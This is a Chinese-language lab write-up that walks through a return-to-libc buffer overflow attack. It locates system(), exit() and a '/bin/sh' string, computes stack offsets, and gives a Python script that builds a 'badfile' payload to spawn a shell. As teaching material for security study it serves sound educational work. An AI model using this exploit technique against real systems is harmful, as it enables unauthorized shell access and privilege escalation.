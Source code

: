 # 发起return-to-libc攻击

## 攻击三个阶段

最终目标是跳转到system()函数，执行/bin/sh，就是执行system("/bin/sh")  
为此，划分为三个阶段：  
1、找到system()函数的地址  
2、找到字符串/bin/sh的地址  
3、system()函数的参数  

## 第一阶段

![攻击第一阶段](../img/returntolibc-step1.png)
gdb中，需要使用run指令来执行目标程序，否则libc函数库不会被加载到内存中

!!! gdb指令

    -q选项是指安静模式，即不必要的信息不打印

## 第二阶段

```bash
export MYSHELL="/bin/sh"
```

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    char *shell = (char *)getenv("MYSHELL");
    if (shell)
    {
        printf(" Value: %s \n", shell);
        printf(" Address: %x\n", (unsigned int)shell);
    }
    return 1;
}
```
![攻击第二阶段](../img/returntolibc-step2.png)

***这个地址与程序名称有关***
![地址与名称有关](../img/returntolibc-step21.png)
环境变量保存在程序的栈中，在压入栈之前，是程序名称先入栈

![汇编显示入栈顺序](../img/returntolibc-step22.png)
![汇编显示入栈顺序](../img/returntolibc-step23.png)

![c语言内存布局](../img/overflow-memory.png)
根据之前缓冲区溢出中程序原理图，小端序高字节保存在内存高地址，而栈的方向是从高地址往低地址，
故是函数名称先入栈。

## 第三阶段

### 问题的产生

正常的函数调用是这样的，函数被调用前，调用者把所需参数压入栈中，然后跳转到函数开头，一旦进入
被调用函数，可以通过帧指针ebp（栈底指针）获得传递参数。  
但是return-to-libc攻击中不是这样的，漏洞程序跳转到system()函数之前，需要自行将参数（即
/bin/sh的地址）放入栈中。关键在于参数应该放在栈的哪个位置。

### 分析

我们的目标是在函数返回时跳转到system函数，故返回地址填system函数的地址，那么这时system栈帧应该
如下图：
![system函数的栈帧](../img/returntolibc-system.png)
正常程序的栈帧如下图：  
![程序的栈帧](../img/returntolibc-normal.png)
可以知道的是，system函数第一个参数肯定在%ebp + 8处，system函数返回地址即%ebp +4处放exit函数
的地址，可以完美终止程序
![system函数位置确定](../img/returntolibc-system2.png)
上图中vul_func函数对应我们这里foo函数。从上图3可知，栈顶ebp在system最后一个参数位置处，4的位置就是
buffer函数地址。  
如果计算出ebp到buffer的距离，就能够算出三个位置距离缓冲区起始位置的偏移值。  
system函数的地址是偏移 + 4  
exit函数的地址是偏移 + 8  
字符串/bin/sh的地址是偏移 + 12

### 实验

确定偏移实验
![确定偏移](../img/returntolibc-step3.png)

漏洞利用程序
```python
#!/usr/bin/python3
import sys

# 给content填上非零值
content = bytearray(0xaa for i in range(300))

a3 = 0xbfffff56     # /bin/sh的地址
content[120:124] = (a3).to_bytes(4, byteorder='little')

a2 = 0xb7e56260     # exit函数地址
content[116:120] = (a2).to_bytes(4, byteorder='little')

a1 = 0xb7e63310     # system函数地址
content[112:116] = (a1).to_bytes(4, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```
![攻击成功](../img/returntolibc-step32.png)

!!! 实验注意点

    上述实验开始没注意到函数名称的长度必须和stack一样，故后来取名env55攻击成功。  
    ubuntu 16.04以上需要sudo ln -sf /bin/zsh /bin/sh
    
!!! 返回导向编程

    简称ROP，return-to-libc攻击不一定需要返回到一个已有函数，思想是巧妙地把内存中的一些小指令序列串联，
    这些指令并不在一起，但最后一个指令都是return，通过设置都会返回到下一个指令地址。